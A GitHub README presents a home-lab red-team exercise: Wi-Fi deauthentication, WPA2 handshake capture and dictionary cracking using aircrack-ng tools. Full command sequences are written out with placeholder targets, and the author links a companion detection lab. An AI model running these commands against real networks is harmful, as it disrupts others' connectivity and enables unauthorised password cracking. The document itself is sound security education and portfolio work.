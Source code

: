 # Wi-Fi Deauth Attack (Red Team) 🔴🔓📡
![Kali Linux](https://img.shields.io/badge/Tested%20On-Kali%20Linux%202025.1-blue?logo=kalilinux)
![VMware](https://img.shields.io/badge/Platform-VMware%20Workstation-lightgrey?logo=vmware)

This repository documents my **controlled Wi-Fi deauthentication (deauth) attack** and **WPA2 handshake capture** performed inside a **Kali Linux VM running on VMware Workstation Pro**. The exercise highlights how attackers can exploit unprotected 802.11 management frames to forcibly disconnect clients and capture WPA2 handshakes for offline password analysis. The purpose of this project is to provide a practical, hands-on example of offensive wireless testing, with future expansion into defensive monitoring strategies. While the attack itself is disruptive, it also offers valuable lessons for defenders who need to recognize and mitigate such activity in real-world environments.

**The objective:** force a client on **my own test network** to disconnect, capture the WPA2 handshake, and crack a weak passphrase with the `aircrack-ng` suite.

> ⚠️ **Ethical Notice:** Performed only on a network I own, strictly for education and portfolio purposes. Do **not** test on networks without explicit authorization.

---

## ⚙️ Lab Environment

- **Platform:** VMware Workstation Pro  
- **Guest OS:** Kali Linux (kali-rolling)  
- **VM Resources:** 8 GB RAM • 4 vCPUs • 80 GB storage  
- **Wi-Fi Adapters:** 2× **ALFA AWUS036ACM** (USB passthrough)  
  - `wlan0` → handshake capture  
  - `wlan1mon` → packet injection / deauth  
- **Tools:** `airmon-ng`, `airodump-ng`, `aireplay-ng`, `aircrack-ng`  
- **Wordlist:** `rockyou.txt`  

---

## 📸 Step-By-Step Process (Commands + Evidence)

### 1) Detect Wireless Adapters
    iwconfig
Identify available interfaces before starting.

![Detect Adapters](https://github.com/SecuredByKC/Portfolio-DeauthAttack/raw/main/01_detect_wireless_adapters.png)

---

### 2) Enable Monitor Mode (Injection Adapter)
    sudo airmon-ng start wlan0
Enable monitor mode on the adapter dedicated to injection; this creates `wlan1mon`.

![Enable Monitor Mode](https://github.com/SecuredByKC/Portfolio-DeauthAttack/raw/main/03_enable_monitor_mode.png)

---

### 3) Scan Nearby Wi-Fi Networks (Discovery)
    sudo airodump-ng wlan0
Discover SSIDs/BSSIDs and confirm the target (**KC’s Mobile WPA2 Network**).

![Scan Wi-Fi Networks](https://github.com/SecuredByKC/Portfolio-DeauthAttack/raw/main/04_scan_wifi_networks.png)

---

### 4) Target the Network and Capture the Handshake
    sudo airodump-ng --bssid <TARGET_BSSID> -c <CHANNEL> -w handshake wlan0
Lock onto the target AP on its channel and writes captured packets to `handshake-03.cap` using the listener interface.

![Target Network Capture](https://github.com/SecuredByKC/Portfolio-DeauthAttack/raw/main/05_target_network_airodump.png)

---

### 5) Deauthenticate a Client (Trigger Handshake)
    sudo aireplay-ng --deauth 10 -a <TARGET_BSSID> -c <CLIENT_MAC> wlan1mon
Send deauth frames from the injection adapter to force a reconnect, generating the WPA2 4-way handshake.

![Handshake Captured](https://github.com/SecuredByKC/Portfolio-DeauthAttack/raw/main/07_handshake_file_confirmed.png)

---

### 6) Crack the Captured Handshake
    aircrack-ng -w /usr/share/wordlists/rockyou.txt -b <TARGET_BSSID> handshake-03.cap
Run a dictionary attack with `rockyou.txt` against the handshake capture.

![Password Cracked](https://github.com/SecuredByKC/Portfolio-DeauthAttack/raw/main/08_password_cracked_aircrackng.png)

---

## 🖥️ VMware & Hardware Notes

- **USB Passthrough:** Both **ALFA AWUS036ACM** adapters are attached directly to the guest VM for full monitor/injection support.  
- **Networking:** VM set to **NAT** for package updates; wireless adapters are **not** bridged as NICs—each is passed through as a USB device to Kali.  
- **Driver Support:** Ensure chipset/driver support in Kali so `monitor` mode and injection function correctly.

---

## ✅ Key Takeaways

- Practical use of monitor mode and packet injection to capture WPA2 handshakes in a controlled lab.

- Developed a clear understanding of BSSID (access point) vs. client MAC (station) roles during deauthentication attacks.

- Demonstrated a successful dictionary attack, highlighting the risks of weak Wi-Fi passphrases.

- Built a reliable virtualized lab environment using VMware Workstation Pro and ALFA AWUS036ACM USB adapters for wireless testing.

---

## 📂 Repo Contents

- Step screenshots (evidence)  
- This `README.md` documenting methodology, tooling, and lab setup

---

## 🔬 Blue Team Companion Lab  

This project currently focuses on the offensive (red-team) side of wireless security: running a controlled deauthentication attack, capturing WPA2 handshakes, and performing a dictionary attack.  

To complement it, I built a **defensive (blue-team) lab** here:  
👉 **[Wi-Fi Deauth Detection (Blue Team Lab)](https://github.com/SecuredByKC/wifi-deauth-detection-blue)**  

In the Blue Team lab, I:  

-  **Captured Wi-Fi traffic with airodump-ng** in passive mode to collect management frames from the target AP.  
-  **Converted PCAPs into CSV** with `tshark` to extract key 802.11 fields (time, subtype, source, destination, BSSID).  
-  **Ingested the dataset into Splunk Enterprise** and created a custom `wifi_csv` sourcetype for analysis.  
-  **Queried for deauthentication frames (`0x000c`)** and confirmed attack spikes.  
-  **Built timechart visualizations** comparing deauth activity against normal management traffic (beacon, auth, association).  
-  **Summarized attack windows** and documented how Splunk baselining makes detection repeatable, unlike one-off packet inspection.  

This provides a defensive perspective to balance the offensive red-team exercise and demonstrates how real-world defenders can detect and investigate wireless DoS attacks.  

---

## ⚖️ Legal & Ethical Reminder

This methodology is provided for **defensive education**. Always obtain **explicit written permission** before testing any network you don’t own. Unauthorized access is illegal and unethical.

---

## 👤 Author

**Karim Cherradi**
GitHub: [@SecuredByKC](https://github.com/SecuredByKC)
